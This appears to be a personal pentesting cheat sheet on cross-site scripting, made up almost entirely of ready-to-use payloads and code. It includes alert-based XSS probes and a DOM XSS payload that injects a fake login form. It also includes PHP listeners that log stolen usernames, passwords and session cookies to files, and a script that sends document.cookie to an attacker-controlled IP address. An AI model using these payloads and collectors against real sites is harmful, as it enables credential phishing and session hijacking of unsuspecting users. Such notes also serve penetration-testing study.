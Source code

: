 #xss
#cheatseet
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

automation:
https://github.com/mandatoryprogrammer/xsshunter-express

give it a try for stored xss:
* evil svg
* pdf for xss
* `<img src=x onerror=alert(1) />`

typical payload:
blind: ip, cookie, url

**DOM XSS payload**:
[[DOM-based XSS]]
```html
<img src="" onerror=alert(window.origin)>
```

example payload of login form for DOM XSS:
```javascript
'><script>document.write('<h3>Please login to continue</h3><form action=http://PWNIP:PWNPO><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```

server:
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.10.15.77/phishing/index.php");
    fclose($file);
    exit();
}
?>
```


```html
<img src=x onerror="&#x61;lert(1)">
```

#### Blind XSS

Common places:
- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

#### Example of hijacking cookies:
[[Session hijacking]]
Run server:
```php
php -S 0.0.0.0:8000
```

`index.php`
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
script.js
```js
new Image().src='http://10.10.15.77:8000/index.php?c='+document.cookie;
```
payload:
```html
"><script src=http://10.10.15.77:8000/script.js></script>
```
